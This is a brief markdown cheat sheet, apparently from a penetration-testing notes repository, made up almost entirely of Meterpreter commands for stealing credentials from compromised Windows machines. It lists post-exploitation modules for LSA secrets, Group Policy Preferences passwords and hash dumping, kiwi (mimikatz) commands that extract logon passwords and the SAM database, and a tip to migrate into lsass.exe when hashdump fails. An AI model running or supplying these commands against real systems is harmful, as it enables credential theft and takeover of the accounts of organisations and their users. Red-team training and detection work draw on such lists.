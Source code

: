 # Meterpreter

### Meterpreter Modules

```text
post/windows/manage/wdigest_caching

post/windows/gather/lsa_secrets

post/windows/gather/credentials/gpp

post/windows/gather/lsa_secrets

post/windows/gather/smart_hashdump
```

### kiwi

```text
load kiwi
creds_all
kiwi_cmd "privilege::debug" "token::elevate" "sekurlsa::logonpasswords" "lsadump::sam"
```

### hashdump

```text
meterpreter > hashdump
```

if it failes, inject the meterpreter to the lsass.exe process with migrate command

```text
migrate -N lsass.exe
```



